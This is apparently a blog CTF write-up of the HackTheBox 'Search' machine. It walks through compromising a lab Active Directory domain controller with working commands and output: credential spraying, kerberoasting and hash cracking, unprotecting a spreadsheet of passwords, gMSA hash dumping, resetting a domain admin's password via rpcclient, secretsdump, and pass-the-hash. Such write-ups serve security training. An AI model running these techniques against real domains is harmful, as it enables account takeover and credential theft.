 .. title: HackTheBox - Search
.. slug: hackthebox-search
.. date: 2022-07-20 08:34:09 UTC-04:00
.. tags: hacking, windows, active directory, nmap, crackmapexec
.. category: hacking, ctf writeup, hackthebox
.. link:
.. description:
.. type: text

Introduction
============

Search is a retired HackTheBox machine which contains several common windows exploits.
I completed this box a while ago, but it now that it has retired, I can post my writeup.
Some of the tools used to complete this box are: crackmapexec, gmsadumper, bloodhound, smbclient, and rpcclient.

.. TEASER_END

Recon
=====

Start with an nmap scan
::

  sudo nmap -sC -sV -oX initial 10.10.11.129
  Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-24 20:46 EDT
  Nmap scan report for 10.10.11.129
  Host is up (0.042s latency).
  Not shown: 987 filtered tcp ports (no-response)
  PORT     STATE SERVICE       VERSION
  53/tcp   open  domain        Simple DNS Plus
  80/tcp   open  http          Microsoft IIS httpd 10.0
  | http-methods:
  |_  Potentially risky methods: TRACE
  |_http-server-header: Microsoft-IIS/10.0
  |_http-title: Search &mdash; Just Testing IIS
  88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-03-25 00:46:21Z)
  135/tcp  open  msrpc         Microsoft Windows RPC
  139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
  389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
  | ssl-cert: Subject: commonName=research
  | Not valid before: 2020-08-11T08:13:35
  |_Not valid after:  2030-08-09T08:13:35
  |_ssl-date: 2022-03-25T00:47:41+00:00; +1s from scanner time.
  443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
  |_http-server-header: Microsoft-IIS/10.0
  |_http-title: Search &mdash; Just Testing IIS
  | ssl-cert: Subject: commonName=research
  | Not valid before: 2020-08-11T08:13:35
  |_Not valid after:  2030-08-09T08:13:35
  | tls-alpn:
  |_  http/1.1
  |_ssl-date: 2022-03-25T00:47:41+00:00; +1s from scanner time.
  | http-methods:
  |_  Potentially risky methods: TRACE
  445/tcp  open  microsoft-ds?
  464/tcp  open  kpasswd5?
  593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
  636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
  | ssl-cert: Subject: commonName=research
  | Not valid before: 2020-08-11T08:13:35
  |_Not valid after:  2030-08-09T08:13:35
  |_ssl-date: 2022-03-25T00:47:41+00:00; +1s from scanner time.
  3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
  |_ssl-date: 2022-03-25T00:47:41+00:00; +1s from scanner time.
  | ssl-cert: Subject: commonName=research
  | Not valid before: 2020-08-11T08:13:35
  |_Not valid after:  2030-08-09T08:13:35
  3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
  |_ssl-date: 2022-03-25T00:47:41+00:00; +1s from scanner time.
  | ssl-cert: Subject: commonName=research
  | Not valid before: 2020-08-11T08:13:35
  |_Not valid after:  2030-08-09T08:13:35
  Service Info: Host: RESEARCH; OS: Windows; CPE: cpe:/o:microsoft:windows

  Host script results:
  | smb2-security-mode:
  |   3.1.1:
  |_    Message signing enabled and required
  | smb2-time:
  |   date: 2022-03-25T00:47:04
  |_  start_date: N/A


The nmap scan returned a lot of information, however, there are a few key ports that reveal information about the machine.

LDAP on port 389 is a big clue that this is a domain controller.

First, I looked at the website.
There are lots of images being shown in the slide deck.
Let's investigate those.

.. image:: /images/htb-search/slide_2.jpg

This image has some handwritten notes.
On the planner, there is a line that says "send password to Hope Sharp IsolationIsKey?".
This looks promising.

While I don't know the username format for this org, I made a python script that generates possible combinations.
https://github.com/haicenhacks/username-generator.
I put the name "Hope Sharp" in the names.txt file and ran the script
python generate_usernames.py -i names.txt -o usernames.txt

Next, I ran crackmapexec to test which of these were valid

::

  crackmapexec smb search.htb -u usernames.txt -p 'IsolationIsKey?'
  SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
  SMB         10.10.11.129    445    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey?

Logging in with smb reveales a few shares, but Hope Sharp does not have access to any

::

  smbclient -L //search.htb -U hope.sharp
  Enter WORKGROUP\hope.sharp's password:

  	Sharename       Type      Comment
  	---------       ----      -------
  	ADMIN$          Disk      Remote Admin
  	C$              Disk      Default share
  	CertEnroll      Disk      Active Directory Certificate Services share
  	helpdesk        Disk
  	IPC$            IPC       Remote IPC
  	NETLOGON        Disk      Logon server share
  	RedirectedFolders$ Disk
  	SYSVOL          Disk      Logon server share
  SMB1 disabled -- no workgroup available



The next thing I tried was kerberoasting


::

  Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

  ServicePrincipalName               Name     MemberOf  PasswordLastSet             LastLogon  Delegation
  ---------------------------------  -------  --------  --------------------------  ---------  ----------
  RESEARCH/web_svc.search.htb:60001  web_svc            2020-04-09 08:59:11.329031  <never>



  [-] CCache file is not found. Skipping...
  $krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$b13f647c815289acbc8c0338a518f1e3$3cb01b7fed4 <snip> c4e0cade4fb0b97417d28e20a

This gets a kerberos ticket granting ticket, which can be cracked using

::

  hashcat -m 13100 web_svc.hash /usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt

  @3ONEmillionbaby

Since I had valid credentials from Hope Sharp, the other domain users can be dumped using bloodhound or ldapdomaindump, and extract the sam account name from the output

::

  ldapdomaindump -u search\\hope.sharp -p IsolationIsKey? 10.10.11.129
  cat domain_users.grep | awk -F'\t' '{print $3}' > sam_names.txt

Using the sam names, I tried password spraying the password from the kerberoasted user web_svc

::

  crackmapexec smb search.htb -u sam_names.txt -p @3ONEmillionbaby --continue-on-success

This shows the user Edgar.Jacobs has reused their password when creating the web_svc account

``SMB         10.10.11.129    445    RESEARCH         [+] search.htb\Edgar.Jacobs:@3ONEmillionbaby``

Next, I checked the SMB shares to see if Edgar.Jacobs can access anything else.

::

  smbclient  -L //search.htb -U edgar.jacobs
  Enter WORKGROUP\edgar.jacobs's password:

  	Sharename       Type      Comment
  	---------       ----      -------
  	ADMIN$          Disk      Remote Admin
  	C$              Disk      Default share
  	CertEnroll      Disk      Active Directory Certificate Services share
  	helpdesk        Disk
  	IPC$            IPC       Remote IPC
  	NETLOGON        Disk      Logon server share
  	RedirectedFolders$ Disk
  	SYSVOL          Disk      Logon server share

  smbmap -u smbmap -u edgar.jacobs -p @3ONEmillionbaby -d search -H 10.10.11.129

  smbmap -u smbmap -u edgar.jacobs -p @3ONEmillionbaby -d search -H 10.10.11.129 -R RedirectedFolders$

There is an interesting file on Edgar's desktop called "Phishing_Attempt.xlsx", and the flag is under Sierra Frye's account, unfortunately the sheet is protected.
I removed the sheet protection by

1) renaming the file as Phishing_Attempt.zip
2) unzip the file
3) modify the xl/sheet2.xml file to remove the protection value
4) re-zip the file
5) rename it Phishing_Attempt.xlsx


.. image:: /images/htb-search/phishing_xls.png

unzip the new file

.. image:: /images/htb-search/phishing_xls_extracted.png

delete the cell protection

.. image:: /images/htb-search/phishing_xls_protected.png

zip it up and rename it

.. image:: /images/htb-search/phishing_xls_unprotected.png

the file now shows the passwords

Using Sierra Frye's password, I can now get the user flag.

The next step is to figure out how to escalate privleges to get the admin flag.

::

  bloodhound-python -u 'sierra.frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -ns 10.10.11.129 -d search.htb -c all``

Then start Bloodhound.
I marked Hope, Edgar, and Sierra as owned users, then ran the "shortest path to Domain Admins" query".
Since I have Sierra's credentials, the path is this: ``sierra.frye -> ITSEC@search.htb -> BIR-ADFS-GMSA@search.htb -> tristan.davies -> Domain Admin``

.. image:: /images/htb-search/bloodhound_path_to_admin.png


Since Sierra has the read GMSA password permission, I can dump the GSMA password.

::

  python3 gMSADumper.py -d search.htb -u 'sierra.frye' -p '$$49=wide=STRAIGHT=jordan=28$$18'
  Users or groups who can read password for BIR-ADFS-GMSA$:
   > ITSec
  BIR-ADFS-GMSA$:::e1e9fd9e46d0d747e1595167eedcec0f

  rpcclient -U 'BIR-ADFS-GMSA$' --pw-nt-hash //10.10.11.129
  Enter WORKGROUP\BIR-ADFS-GMSA$'s password: e1e9fd9e46d0d747e1595167eedcec0f < paste the gmsa password here
  rpcclient $> setuserinfo2 tristan.davies 23 'password'
  rpcclient $>

Now, I have set Tristan Davies (member of domain admins group) password to "password".

Run secretsdump to obtain all the password hashes

::

  secretsdump.py search.htb/tristan.davies:password@10.10.11.129 -just-dc

Using pass the hash, I can access SMB as Administrator

::

  smbclient.py -hashes aad3b435b51404eeaad3b435b51404ee:5e3c0abbe0b4163c5612afe25c69ced6 administrator@search.htb

and get the root flag
